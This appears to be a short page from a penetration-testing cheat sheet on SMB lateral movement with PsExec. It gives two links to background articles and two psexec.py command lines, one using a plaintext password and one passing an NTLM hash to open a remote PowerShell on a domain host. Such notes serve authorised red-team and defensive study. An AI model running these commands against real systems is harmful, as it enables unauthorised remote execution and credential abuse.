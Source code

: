 # SMB




## PsExec

* [https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec](https://www.contextis.com/us/blog/lateral-movement-a-deep-look-into-psexec)
* [https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm](https://blog.openthreatresearch.com/ntobjectmanager_rpc_smb_scm)



### psexec.py

```
$ psexec.py snovvcrash:'Passw0rd!'@192.168.11.1
$ rlwrap psexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 megacorp.local/snovvcrash@192.168.11.1 powershell
```
